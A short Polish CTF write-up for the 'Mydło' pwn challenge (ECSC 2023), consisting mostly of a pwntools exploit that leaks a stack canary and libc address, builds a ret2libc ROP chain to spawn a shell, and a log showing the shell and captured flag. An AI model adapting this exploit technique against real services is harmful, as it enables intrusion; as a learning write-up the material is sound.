

# Mydło - pwn



Najzwyklejszy Buffer Overflow z canary

```python=
import sys
from pwn import ELF, u64, context, gdb, log, ROP, flat, remote

e = context.binary = ELF("./mydlo")
rop = ROP(e)

libc = ELF("./libc.so.6")
lrop = ROP(libc)

if len(sys.orig_argv) >= 2 and sys.orig_argv[2] == "REMOTE":
    p = remote("mydlo.ecsc23.hack.cert.pl", 5064)
else:
    context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
    p = e.process()
    gdb.attach(p)

# leaking stack canary
p.sendline(b"A" * 24)
print(p.recvline())
canary = u64(b"\x00" + p.recvline()[:-2])

log.info(f"Canary: {hex(canary)}")

# leak __libc_init_first addr
p.sendline(b"A" * (24 + 8 + 8))
print(p.recvline())

libc_init_addr = u64(b"\x00" + p.recvline().strip().ljust(7, b"\x00"))
log.info(f"libc_addr(__libc_init_first): {hex(libc_init_addr)}")

libc_base = libc_init_addr - libc.sym["__libc_init_first"]
log.info(f"libc_base: {hex(libc_base)}")

libc.address = libc_base

p.sendline(flat(
  b"exit\x00",
  b"A" * (24 - len(b"exit\x00")),
  canary,
  b"B" * 8, 
  libc_base + lrop.find_gadget(["pop rdi", "ret"])[0],
  next(libc.search(b"/bin/sh\x00")),
  libc_base + lrop.find_gadget(["ret"])[0],
  libc.sym["system"], 
  0x0,
))

p.interactive()
```

```shell=
[*] '~/src/ctf-writeups/hack.cert.pl/2023/mydlo/mydlo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 5 cached gadgets for './mydlo'
[*] '~/src/ctf-writeups/hack.cert.pl/2023/mydlo/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 199 cached gadgets for './libc.so.6'
[+] Opening connection to mydlo.ecsc23.hack.cert.pl on port 5064: Done
b'AAAAAAAAAAAAAAAAAAAAAAAA\n'
[*] Canary: 0xac933642f2ab5800
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
[*] libc_addr(__libc_init_first): 0x7fe752a9ca00
[*] libc_base: 0x7fe752a79000
[*] Switching to interactive mode
exit
$ ls
entrypoint.sh
flag.txt
mydlo
$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
$ cat flag.txt
ecsc23{H0uSt0n,_w3_have_a_problem}
```

Flag: `ecsc23{H0uSt0n,_w3_have_a_problem}`
